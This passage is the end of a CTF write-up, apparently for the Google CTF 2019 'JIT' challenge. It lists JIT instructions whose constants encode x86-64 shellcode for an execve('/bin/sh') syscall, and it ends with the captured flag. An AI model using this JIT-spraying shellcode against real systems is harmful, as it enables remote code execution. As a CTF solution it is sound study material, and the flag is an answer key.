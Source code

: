     "ADD(A, 1)",            // ctr++
    ///////////// 25
    "JMP(18)",              // a------->
    "LDR(A, 2)",
    "ADD(A, 18699)",        // value += 18699 => 0x6e69622f
    "STR(A, 0)",

    "JMP(\xe0\xa5\xa8\x38)",
    ///////////// 30
    "MOV(A, 37961)",        // xchg rax, r12
    "JMP(\xe0\xa5\xa9\x30)",
    "MOV(A, 24406)",        // push rsi; pop rdi
    "JMP(\xe0\xa5\xa9\x32)",
    "MOV(A, 106)",          // push 0
    ///////////// 35
    "JMP(\xe0\xa5\xa9\x34)",
    "MOV(A, 106)",          // push 0
    "JMP(\xe0\xa5\xa9\x36)",
    "MOV(A, 36958)",        // pop rsi; nop
    "JMP(\xe0\xa5\xa9\x38)",
    "MOV(A, 36954)",        // pop rdx; nop
    ///////////// 35
    "JMP(\xe0\xa5\xaa\x30)",
    "MOV(A, 15210)",        // push 59
    "JMP(\xe0\xa5\xaa\x32)",
    "MOV(A, 95576)",        // pop rax; jne + 1
    "JMP(\xe0\xa5\xaa\x34)",
    "MOV(A, 1295)",         // syscall 
    "RET()",
};
{% endhighlight %}

Printing this to our terminal and copy pasting it into the connection with the server, we can get our shell and thus our flag!

`CTF{8röther_m4y_1_h4v3_söm3_nümb3r5}`

[challenge]:{{site.baseurl}}/ctf/gctf19/JIT/8929b327b760ffb62c092dee035bce9992735012b85a1f274c39f4721889b3c1.zip